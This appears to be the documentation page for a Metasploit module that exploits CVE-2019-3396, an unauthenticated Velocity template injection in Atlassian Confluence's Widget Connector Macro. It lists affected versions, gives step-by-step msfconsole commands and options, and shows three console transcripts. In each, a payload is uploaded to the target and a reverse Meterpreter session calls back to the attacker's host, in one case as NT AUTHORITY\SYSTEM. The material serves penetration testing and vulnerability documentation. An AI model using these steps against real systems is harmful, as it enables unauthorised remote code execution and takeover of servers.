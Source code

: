 # Description

This module exploits a Velocity Template Injection in Atlassian Confluence Widget Connector Macro before 6.14.2 to execute arbitrary code (CVE-2019-3396). No authentication is required to exploit this vulnerability.

The vulnerability exists in the Widget Connector Macro which allow inject the "\_template" from the outside for some services, such as Youtube, Viddler, DailyMotion, etc.

The module has been tested with on Atlassian Confluence 6.6.12, 6.8.2, 6.12.0 and 6.13.0 using Java, Windows and Linux meterpreter payload.

References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3396
https://confluence.atlassian.com/doc/confluence-security-advisory-2019-03-20-966660264.html

# Vulnerable Application
Affecting Atlassian Confluence before version 6.6.12, from version 6.7.0 before 6.12.3, from version 6.13.0 before 6.13.3 and from version 6.14.0 before 6.14.2.

# Verification Steps

List the steps needed to make sure this thing works

- [ ] Setting up a working installation of Atlassian Confluence before 6.6.13, 6.12.3, 6.12.3 or 6.14.2.
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/confluence_widget_connector`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `set SRVHOST <HOST_IP>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `exploit`
- [ ] You should get a meterpreter session.

# Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **TRIGGERURL**: Url to external video service to trigger vulnerability ("https://www.youtube.com/watch?v=dQw4w9WgXcQ" is the default)

# Scenario
## Tested on Confluence 6.8.2 with Windows target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > set TARGET Windows
TARGET => Windows
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Windows 10
[*] target.com:8090 - Attempting to upload C:\PROGRA~1\Atlassian\Confluence\temp\gAdGh.exe
[*] target.com:8090 - Attempting to copy payload to C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] target.com:8090 - Attempting to execute C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] Sending stage (179779 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:62528) at 2019-04-11 03:13:37 +0000
[*] target.com:8090 - Waiting for exploit to complete...
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\FFDBo.exe' on the target
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\JLzIZ.exe' on the target
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Java target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload  /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Attempting to execute  /opt/atlassian/confluence/temp/EjpPf.jar
[*] Sending stage (53866 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 -Deleted /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: confluence
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Linux target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload /opt/atlassian/confluence/temp/BYHzD
[*] target.com:8090 - Attempting to copy payload to /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Attempting to execute /opt/atlassian/confluence/temp/dESMnt
[*] Sending stage (985320 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/BYHzD
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1001, gid=1001, euid=1001, egid=1001
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```